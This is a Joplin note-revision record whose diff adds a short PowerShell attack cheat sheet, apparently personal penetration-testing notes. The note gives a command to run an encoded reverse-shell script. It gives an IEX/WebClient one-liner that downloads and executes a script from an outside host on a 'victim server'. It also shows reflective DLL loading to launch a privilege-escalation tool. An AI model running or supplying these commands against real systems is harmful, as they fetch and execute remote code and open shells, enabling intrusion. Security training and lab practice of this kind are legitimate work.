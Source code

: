 id: 74297f4956234b3788c2cf25d7c3f402
parent_id: 
item_type: 1
item_id: 069c62b2fe97431686d1072c2f9241aa
item_updated_time: 1642661960951
title_diff: "[{\"diffs\":[[1,\"PowerShell\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"Running Encoded Powershell scripts\\\n\\\n> powershell.exe -E (Get-Content '.\\\\\\\\encoded-rshell.ps1' -Raw)\\\n\\\nDownload the PowerShell script to run in the victim server directly (instead of downloading a file)\\\n\\\n> \\\"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')\\\"\\\n\\\nUse a DLL and run it\\\n\\\n> \\\\[Reflection.Assembly\\\\]::LoadFile(\\\"C:\\\\\\\\&lt;File&gt;\\\")\\\n> \\\n> \\\\[Waston.Program\\\\]::Main()\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":394}]"
metadata_diff: {"new":{"id":"069c62b2fe97431686d1072c2f9241aa","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.694Z
created_time: 2022-02-28T02:44:25.694Z
type_: 13